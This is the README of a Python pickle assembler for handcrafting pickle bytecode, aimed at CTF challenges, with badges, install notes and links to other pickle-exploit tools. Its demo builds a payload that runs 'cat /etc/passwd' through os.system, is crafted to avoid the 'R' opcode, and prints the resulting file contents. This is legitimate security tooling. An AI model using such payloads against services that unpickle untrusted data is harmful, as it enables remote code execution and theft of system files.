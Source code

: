 # pickleassem

[![PyPI - Downloads](https://pepy.tech/badge/pickleassem)](https://pepy.tech/count/pickleassem)
[![PyPI - Version](https://img.shields.io/pypi/v/pickleassem.svg)](https://pypi.org/project/pickleassem)
[![PyPI - Python Version](https://img.shields.io/pypi/pyversions/pickleassem.svg)](https://pypi.org/project/pickleassem)

[![GitHub Actions - Status](https://github.com/gousaiyang/pickleassem/workflows/Build/badge.svg)](https://github.com/gousaiyang/pickleassem/actions?query=workflow%3ABuild)
[![Codecov - Coverage](https://codecov.io/gh/gousaiyang/pickleassem/branch/master/graph/badge.svg)](https://codecov.io/gh/gousaiyang/pickleassem)

A simple pickle assembler to make handcrafting pickle bytecode easier.

This is useful for CTF challenges like [pyshv in Balsn CTF 2019](https://ctftime.org/task/9386).

## Demo

```python
import pickle
import pickletools

from pickleassem import PickleAssembler

pa = PickleAssembler(proto=4)
pa.push_mark()
pa.push_short_binunicode('cat /etc/passwd')
pa.build_inst('os', 'system')
payload = pa.assemble()
assert b'R' not in payload
print(payload)
pickletools.dis(payload, annotate=1)
pickle.loads(payload)
```

Output:

```
b'\x80\x04(\x8c\x0fcat /etc/passwdios\nsystem\n.'
    0: \x80 PROTO      4 Protocol version indicator.
    2: (    MARK         Push markobject onto the stack.
    3: \x8c     SHORT_BINUNICODE 'cat /etc/passwd' Push a Python Unicode string object.
   20: i        INST       'os system' (MARK at 2) Build a class instance.
   31: .    STOP                                   Stop the unpickling machine.
highest protocol among opcodes = 4
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

## Installation

Install with pip: `pip install -U pickleassem`

## Documentation

Just refer to the source code. Each method of `PickleAssembler` whose name begins with `push`, `build`, `pop` or `memo` corresponds to a pickle opcode.

The following opcodes and corresponding features are not implemented: `PERSID`, `BINPERSID`, `EXT1`, `EXT2`, `EXT4`, `FRAME`, `NEXT_BUFFER`, `READONLY_BUFFER`.

## See Also

Other tools for pickle exploit:

- `anapickle`: [slides](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf), [repo](https://github.com/sensepost/anapickle)
- [`pwnypack.pickle`](https://github.com/edibledinos/pwnypack/blob/master/pwnypack/pickle.py)
